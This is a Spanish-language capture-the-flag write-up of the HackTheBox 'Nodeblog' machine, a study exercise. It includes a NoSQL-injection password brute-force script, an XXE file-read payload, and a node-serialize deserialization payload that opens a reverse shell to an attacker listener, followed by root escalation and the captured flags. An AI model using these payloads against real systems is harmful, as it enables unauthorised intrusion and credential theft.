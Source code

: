 ```yaml
---
title: HackTheBox - Nodeblog
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'NoSQL Injection', 'Prototype Pollution']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Nodeblog/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Nodeblog Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **SSTI, NoSQL Injection, Prototype Pollution**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina NodeBlog`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/Machines/Nodeblog/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/Machines/Nodeblog/02-versions.png)

    * Se ejecuta **Node.js** en el puerto **5000**

c. Al visitar el sitio web ejecutándose en el puerto **5000** nos encontramos con un panel de autenticación, veremos como se envía la data con **Burp Suite**

```bash
user=admin&password=admin
```

* Al intentar con inyecciones **`SQL`** no funcionan, así que otro método son las inyecciones **`NoSQL`**

    🔷 Si ingresamos un nombre de usuario **válido** nos saldrá un mensaje de **`Invalid Password`**, por lo cual tenemos una forma de enumerar usuarios válidos.

    ![](/assets/images/Machines/Nodeblog/03-burp.png)
    > **`"$ne"`** significa **`no equal`**, por lo que nos loguearemos como el usuario **`admin`** y que no tenga por contraseña **`a`**


    * Creamos un script para dumpear la contraseña de este usuario

        ```python
        import requests
        import string
        from pwn import *

        def brute_force() -> None:
            main_url = "http://<IP>:5000/login"
            characteres = string.ascii_letters + string.digits
            headers = {"Content-Type": "application/json"}
            password=""
            bar_1 = log.progress("Brute Force")
            bar_1.status("Starting Brute Force...")
            bar_2 = log.progress("Password")

            for index in range(26):
                for character in characteres:
                    k = password+character
                    data = '{"user":"admin","password":{"$regex":"^'+k+'.*"}}'
                    r = requests.post(main_url, headers=headers, data=data)
                    bar_1.status(data)

                    if("Invalid Password" not in r.text):
                        password += character
                        bar_2.status(password)
                        break
        if __name__ == "__main__":
            brute_force()
        ------------------------------------------------------------------------
        [◓] Password: IppsecSaysPleaseSubscribe
        ```

d. Una vez nos autenticamos en el servicio, existe un apartado para subir ficheros el cual únicamente acepta **ficheros XML**

![](/assets/images/Machines/Nodeblog/04-error.png)

* Creamos un fichero **XML Malicioso** para comprobar si la página web es vulnerable a **XXE**

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <root>
        <title>Test</title>
        <description>&xxe;</description>
        <markdown>Test</markdown>
    </root>
    ```

    ![](/assets/images/Machines/Nodeblog/05-xxe.png)

* Si queremos leer archivos importantes del servidor, debemos saber en que ruta estamos actualmente, y para eso, lo que haremos es provocar un error

    ![](/assets/images/Machines/Nodeblog/06-error-based.png)
    > La ruta actual es **/opt/blog**

* Los nombres más comúnes de archivos que contenga el código de la página web son **app.js, server.js, main.js**. Iremos testeando con cada uno en el ataque **XXE**

    * La ruta es **`/opt/blog/service.js`**

    ```
    <SNIP>
    const serialize = require('node-serialize')

    function authenticated(c) {
        c = serialize.unserialize(c)
    }
        res.render('articles/index', { articles: articles, ip: req.socket.remoteAddress, authenticated: authenticated(req.cookies.auth) })
    <SNIP>
    ```
    > Al anlizar el código filtrado por el **XXE** vemos que se serializa una **deserialización** de las **cookies**

e. El ataque que ejecutaremos es **`Prototype Pollution`**, inyectaremos el código en las cookies

* Usaremos [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) para crear un payload 

    ```bash
    python2 serialize.py 10.10.14.115 4444
    ```

f. En [HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization) vemos un payload al cual sumaremos el output del comando anterior

```py
{"rce":"_$$ND_FUNC$$_function(){payload}()"}
```
> Lo más importante en el payload son los **()** al final, ya que esto hará que nuestro payload se ejecute antes de ser **deserializado**

* El payload final los urlencodeados **echo -n 'payload' | jq -sSr @uri**

g. Nos ponemos en escucha con **nc -lvnp 4444** y el **payload urlencodeado** lo sustituimos en las **cookies** del navegador y recargamos la página

```bash
listening on [any] 4444 ...
connect to [10.10.14.115] from (UNKNOWN) [10.10.11.139] 39540
Connected!
whoami
admin
```

### Escalada de Privilegios 💹

a. Listamos los permisos que tengamos como **`admin`**

```bash
admin@nodeblog:/opt/blog$ sudo -l 
sudo -l
[sudo] password for admin: IppsecSaysPleaseSubscribe

User admin may run the following commands on nodeblog:
    (ALL) ALL
    (ALL : ALL) ALL
```
> Podemos ejecutar cualquier comando como **`root`**

b. Ejecutamos **`sudo su`** y leemos las **`flags`**

```bash
admin@nodeblog:/opt/blog$ sudo su
root@nodeblog:/opt/blog# cat /home/admin/user.txt
c51fb8fabc95d5f33a6906d850a5f997
root@nodeblog:/opt/blog# cat /root/root.txt
b4dbf647e084f886321b196d4b4643fd
```